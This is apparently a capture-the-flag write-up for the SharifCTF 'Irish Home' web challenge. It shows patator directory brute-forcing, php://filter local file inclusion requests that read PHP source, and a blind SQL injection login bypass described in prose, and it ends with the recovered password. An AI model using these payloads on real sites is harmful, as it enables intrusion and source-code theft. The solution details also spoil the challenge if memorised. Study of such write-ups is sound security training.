 # Web - Irish Home

After some time looking at the site without founding anything, I started to find some other pages via brute-force, to this I used `patator`:
```
root@kali:~# patator http_fuzz url=http://ctf.sharif.edu:8082/FILE0.php 0=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ignore:code=404
00:08:48 patator    INFO - Starting Patator v0.5 (http://code.google.com/p/patator/) at 2016-12-19 00:08 CET
00:08:48 patator    INFO - 
00:08:48 patator    INFO - code size:clen     | candidate                        |   num | mesg
00:08:48 patator    INFO - ----------------------------------------------------------------------
00:08:51 patator    INFO - 200  4895:4491     | index                            |    15 | HTTP/1.1 200 OK
00:08:52 patator    INFO - 403  387:213       |                                  |    14 | HTTP/1.1 403 Forbidden
00:08:59 patator    INFO - 200  2466:2062     | login                            |    53 | HTTP/1.1 200 OK
00:09:27 patator    INFO - 200  1498:1094     | header                           |   191 | HTTP/1.1 200 OK
00:09:39 patator    INFO - 302  2342:1959     | admin                            |   259 | HTTP/1.1 302 Found
```

Ok, after this step, I though I was stuck but I still tried to perform some requests using Burp repeater, by chance, I tryed to request `admin.php`:  
```
GET /admin.php HTTP/1.1
Host: ctf.sharif.edu:8082

HTTP/1.1 302 Found
Server: nginx/1.6.1
Date: Sun, 18 Dec 2016 10:21:38 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1959
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: /login.php


<html>
<head>
	<meta charset="utf-8">
	<script src="https://storage.googleapis.com/code.getmdl.io/1.0.6/material.min.js"></script>
	<link rel="stylesheet" href="https://fonts.googleapis.com/icon?family=Material+Icons">
	<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/materialize/0.97.8/css/materialize.min.css">
	<link rel="stylesheet" href="http://ctf.sharif.edu/ctf7/static/style.css">
	<title>Irish Home</title>
</head>
<body>
	<nav>
		<div class="nav-wrapper">
			<a href="/index.php" class="brand-logo" style="margin-left: 1cm;">Irish Home</a>
			<a href="#" data-activates="side-nav" class="button-collapse"><i class="material-icons">menu</i></a>
			<ul id="nav-mobile" class="right hide-on-med-and-down">
												<li><a href="/login.php">Login</a>			</ul>
			<ul class="side-nav" id="side-nav" style="transform: translateX(-100%);">
				<li><a href="/index.php">Irish Home</a>
				<li><div class="divider"/>
												<li><a href="/login.php">Login</a>			</ul>
		</div>
	</nav>

	<div class="row">
		<div class="col s6 offset-s3">
			<div class="card-panel">

<table>
	<tr>
		<td>Page</td>
		<td>Actions</td>
	</tr>

	<tr>
		<td><a href="pages/show.php?page=blog">blog</a></td>
		<td>
		 		<a style="color: red" class="material-icons" href="delete.php?page=blog">delete</a>
		 		<a style="color: green" class="material-icons" href="edit.php?page=blog">edit</a>
	 		</td>
	<tr>
		<td><a href="pages/show.php?page=notice">notice</a></td>
		<td>
		 		<a style="color: red" class="material-icons" href="delete.php?page=notice">delete</a>
		 		<a style="color: green" class="material-icons" href="edit.php?page=notice">edit</a>
	 		</td>
</table>
</div>
</div>
</div>
<script src="http://ctf.sharif.edu/ctf7/static/jquery-3.1.1.min.js"></script>
<script src="http://ctf.sharif.edu/ctf7/static/materialize/js/materialize.min.js"></script>
<script>

	$(function () {
		$(".button-collapse").sideNav();
	})
</script>
</body>
</html>
```
So ok, the user is redirected but the content of the page is displayed. Here we can see some admin pages:
- `delete.php`: page used to delete content
- `edit.php`: page used to edit pages
- `pages/show.php`: page used to display content

After trying to access unsuccessfully to `deleted.php` and `edit.php` I tryed to use `show.php` and to include some files (in this order):
```
GET /pages/show.php?page=php://filter/convert.base64-encode/resource=../login HTTP/1.1
Host: ctf.sharif.edu:8082
   --> Allow to read the login function

GET /pages/show.php?page=php://filter/convert.base64-encode/resource=delete HTTP/1.1
Host: ctf.sharif.edu:8082
   --> Allow to get the location of the deleted files

GET /pages/show.php?page=php://filter/convert.base64-encode/resource=notice HTTP/1.1
Host: ctf.sharif.edu:8082
   --> Allow to get the name of the deleted file

GET /pages/show.php?page=php://filter/convert.base64-encode/resource=../deleted_3d5d9c1910e7c7/flag HTTP/1.1
Host: ctf.sharif.edu:8082
   --> Allow to get the format of the final flag
```

We now know the format of the flag and the username of the administrator, but we still don't have the flag neither the password:
```
$username = 'Cuchulainn';
$password = ;	// Oi don't save me bleedin password in a shithole loike dis.

$salt = 'd34340968a99292fb5665e';

$tmp = $username . $password . $salt;
$tmp = md5($tmp);

$flag = "SharifCTF{" . $tmp . "}";

echo $flag;
```
So we have to get the admin password, let's try to analyse the `login.php` file:
```
	if(!empty($_POST['username']) && !empty($_POST['password'])) {
		$username = $_POST['username'];
		$password = $_POST['password'];

		if(strpos($password, '"') !== false)
			$text = "SQL injection detected";
		else {
			$servername = "localhost";
			$db_username = "irish_user";
			$db_password = "3d2f27921e2c13e7b66e7b486b0feae3dde1ef25";
			$dbname = "irish_home";

			$conn = new mysqli($servername, $db_username, $db_password, $dbname);
			if ($conn->connect_error) {
				die("Connection failed: " . $conn->connect_error);
			}

			$sql = "SELECT * FROM users where username=\"$username\" and BINARY password=\"$password\"";

			$result = $conn->query($sql);

			if (!$result)
				trigger_error('Invalid query: ' . $conn->error);

			if ($result->num_rows > 0) {
				if(strpos($username, '"') !== false)
					$text = "SQL injection detected";
				else {
					$_SESSION['logged_in'] = $username;
					header('Location: /admin.php');
				}
			}
```
There we find something interresting ; in fact, there is a SQL detection mecanism used:
- If password contains double quote then an error is returned to the user
- Else the SQL request `"SELECT * FROM users where username=\"$username\" and BINARY password=\"$password\""` is performed :
    - If there is no result the standard error page is returned
    - Else :
        - If a double quote is found in the user name an error `"SQL injection detected"` is displayed to the user
        - Else the user is logged in

The validation scheme is vulnerable to blind SQL injection. In fact, we are able to know (using some SQL injection method) if the statement is true (standard error) or if it is false (error contains "SQL injection detected"). So after some try, we got the password and then the flag (thanks Iansus for the help !):
```
PASSWORD = 2a7da9c@088ba43a_9c1b4Xbyd231eb9
```
